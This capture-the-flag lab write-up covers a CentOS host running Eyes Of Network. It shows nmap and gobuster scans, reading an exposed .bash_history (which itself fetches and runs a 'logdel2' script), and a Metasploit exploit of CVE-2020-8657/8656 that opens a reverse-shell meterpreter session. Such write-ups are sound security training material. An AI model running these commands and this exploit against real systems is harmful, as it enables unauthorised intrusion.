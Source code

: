 \clearpage
# CTF
## CTF 01

> Capture The Flag.
> 
> IP: 192.168.10.18
> 
> The flag is stored in the flag.txt file.

> Capture The Flag.
> 
> IP: 192.168.10.18
> 
> The flag is stored in the root.txt file.

### Nmap

To first gain knowledge on what services are running on the machine, a port scan is executed using nmap. With it, all 65535 possible TCP ports are scanned for an answer. If open, the tool will gain information on the running versions.

```bash
$ nmap -sV -Pn $IP -p-
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-13 15:58 CEST
Nmap scan report for 192.168.10.18
Host is up (0.0025s latency).
Not shown: 65527 closed tcp ports (conn-refused)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 7.4 (protocol 2.0)
66/tcp   open  http            SimpleHTTPServer 0.6 (Python 2.7.5)
80/tcp   open  http            Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips
	mod_fcgid/2.3.9 PHP/5.4.16 mod_perl/2.0.11 Perl/v5.16.3)
111/tcp  open  rpcbind         2-4 (RPC #100000)
443/tcp  open  ssl/http        Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips
	mod_fcgid/2.3.9 PHP/5.4.16 mod_perl/2.0.11 Perl/v5.16.3)
2403/tcp open  taskmaster2000?
3306/tcp open  mysql           MariaDB (unauthorized)
8086/tcp open  http            InfluxDB http admin 1.7.9

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 134.22 seconds
```

The scan shows that there are five known services running:
- OpenSSH on port 22
- A python webserver on port 66
- An apache webserver on port 80 and 443
- A MariaDB database on port 3306
- An admin interface for InfluxDB on port 8086

### Website 1
Since the portscan showed two webservers, these are analysed. On port 66 there is a website, that looks like the website of [Backblaze](https://www.backblaze.com/). On the top is a navigation bar that shows a login button. The navigation seems to be broken, since the content won't change.

![First website](ctf1/website1.png)

After the initial look a gobuster scan is initiated, to gather information on known paths and files.

```bash
$ gobuster dir -u http://$IP:66 -w /usr/share/wordlists/dirb/common.txt -k 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.10.18:66
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/13 16:10:10 Starting gobuster in directory enumeration mode
===============================================================
/.bash_history        (Status: 200) [Size: 319]
/index.htm            (Status: 200) [Size: 17477]
/index_files          (Status: 301) [Size: 0] [--> /index_files/]
                                                                 
===============================================================
2022/06/13 16:10:15 Finished
===============================================================
```

Gobuster found a file called `.bash_history`, which is a file that is normally stored in the home directory of an user and contains the history of used commands. To show its content, curl is used:


```bash
$ curl http://$IP:66/.bash_history
nano /etc/issue
nano /etc/hosts
nano /etc/hostname
ls
crontab -e
ls
rm index.htm 
wget 192.168.2.43:81/db7i.htm
mv db7i.htm index.htm
nano /etc/hostname
nano /etc/hosts
ls
wget 192.168.2.43:81/logdel2
bash logdel2
wget 192.168.2.43:81/root.txt
mv root.txt flag.txt
nano flag.txt
ls
shutdown -h now
ip a
shutdown -h now
```

In the history file, a `flag.txt` is edited. So we try to request this file.

```bash
$ curl http://$IP:66/flag.txt -k        
cyberctfd{r5KYSTQmMve4KVIoaeaVQH4NUfD7caR6}
```

### Website 2
The second website on port 80 redirects, as expected, to port 443 using TLS and a self signed certficate. It shows a login screen to a service called `Eyes Of Network`

![Second website](ctf1/website2.png)

A link on the bottom of the page redirects so the softwares homepage. On it, there is news article about a security issue. After some research, we found that there is an exploit using meterpreter for CVE-2020-8657 and CVE-2020-8656.

```bash
$ msfconsole

> use exploit/linux/http/eyesofnetwork_autodiscovery_rce
msf6 exploit(linux/http/eyesofnetwork_autodiscovery_rce) > set RHOSTS 192.168.10.18

msf6 exploit(linux/http/eyesofnetwork_autodiscovery_rce) > exploit

[*] Started reverse TCP handler on 192.168.9.5:1337 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Target is EyesOfNetwork 5.3 or older with API version 2.4.2.
[*] Target is EyesOfNetwork version 5.3 or later. Attempting exploitation using
	CVE-2020-8657 or CVE-2020-8656.
[*] Using generated API key: 41a41f52395de8a08c2de5e1e80ab6f47f5655a53738ec9848f52171143e90d3
[+] Authenticated as user hwAENgHt
[*] Command Stager progress - 100.00% done (897/897 bytes)
[*] Sending stage (3020772 bytes) to 192.168.10.18
[*] Meterpreter session 1 opened (192.168.9.5:1337 -> 192.168.10.18:51476 ) at
	2022-06-13 17:12:54 +0200

meterpreter > ls /
Listing: /
==========

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100644/rw-r--r--  0      fil   2021-04-03 16:50:18 +0200  .autorelabel
040555/r-xr-xr-x  36864  dir   2021-04-03 19:01:30 +0200  bin
040555/r-xr-xr-x  4096   dir   2021-04-03 19:00:33 +0200  boot
040755/rwxr-xr-x  3120   dir   2022-06-13 09:30:57 +0200  dev
040755/rwxr-xr-x  12288  dir   2022-06-13 09:30:58 +0200  etc
040755/rwxr-xr-x  4096   dir   2021-04-03 16:37:42 +0200  home
040555/r-xr-xr-x  4096   dir   2021-04-03 16:37:53 +0200  lib
040555/r-xr-xr-x  36864  dir   2021-04-03 16:38:08 +0200  lib64
040700/rwx------  16384  dir   2021-04-03 16:34:51 +0200  lost+found
040755/rwxr-xr-x  4096   dir   2018-04-11 06:59:55 +0200  media
040755/rwxr-xr-x  4096   dir   2018-04-11 06:59:55 +0200  mnt
040755/rwxr-xr-x  4096   dir   2018-04-11 06:59:55 +0200  opt
040555/r-xr-xr-x  0      dir   2022-06-13 09:30:51 +0200  proc
040550/r-xr-x---  4096   dir   2022-06-13 10:03:04 +0200  root
100644/rw-r--r--  44     fil   2022-05-15 16:57:57 +0200  root.txt
040755/rwxr-xr-x  1000   dir   2022-06-13 10:03:04 +0200  run
040555/r-xr-xr-x  16384  dir   2021-04-03 16:38:04 +0200  sbin
040755/rwxr-xr-x  4096   dir   2021-04-03 16:37:17 +0200  share
040755/rwxr-xr-x  4096   dir   2021-04-03 16:43:07 +0200  srv
040555/r-xr-xr-x  0      dir   2022-06-13 09:30:53 +0200  sys
041777/rwxrwxrwx  4096   dir   2022-06-13 17:12:55 +0200  tmp
040755/rwxr-xr-x  4096   dir   2021-04-03 16:35:14 +0200  usr
040755/rwxr-xr-x  4096   dir   2021-04-03 16:43:04 +0200  var

meterpreter > cat /root.txt
cyberctfd{cROGRMZeGLNFZ3XIfaeaKoT2OKTB4qhM}

```

The exploit can be used to execute code remotely and open a reverse shell to the attackers machine.